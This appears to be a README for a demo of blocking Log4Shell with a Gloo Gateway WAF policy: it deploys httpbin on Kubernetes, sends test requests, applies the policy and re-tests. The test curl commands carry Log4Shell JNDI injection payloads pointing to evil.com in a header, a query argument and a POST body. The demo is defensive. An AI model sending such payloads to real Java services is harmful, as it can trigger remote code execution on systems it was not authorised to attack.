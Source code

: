 # Block Log4Shell attacks with Gloo Gateway

https://www.solo.io/blog/block-log4shell-attacks-with-gloo-gateway/

## Deploy httpbin

```sh
kubectl create namespace httpbin --context gloo
kubectl --context gloo label namespace httpbin istio-injection=enabled

kubectl apply -f log4shell/httpbin.yaml -n httpbin --context gloo
```

## Gloo Mesh Config

```sh
kubectl apply -f log4shell/workspace.yaml --context gloo
kubectl apply -f log4shell/virtual-gateway.yaml --context gloo
kubectl apply -f log4shell/route-table.yaml --context gloo
```

## Test Bad Call

This call has a potentially malicious remote-access header passed in through the `User-Agent` header. If the responding service was a Java service using an unpatched version of Log4j, then we could be in real trouble. The call is accepted without intervention.

```sh
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```

## Apply Policy

```sh
kubectl apply -f log4shell/waf-policy.yaml --context gloo
```

## Re-test Bad Calls

Now we have a WAF policy in place that blocks potentially malicious headers, request argument, and request payloads. Note that all of these "attacks" are now rejected by Gloo Gateway before they reach the upstream service.

```sh
# Request Header Attacks
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
# Request Argument Attacks
curl -X GET localhost:8080/anything\?arg-1=\$\\{jndi:ldap://evil.com/x\\} -i
# Request Payload Attacks
curl -X POST -d "arg-1=\${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```
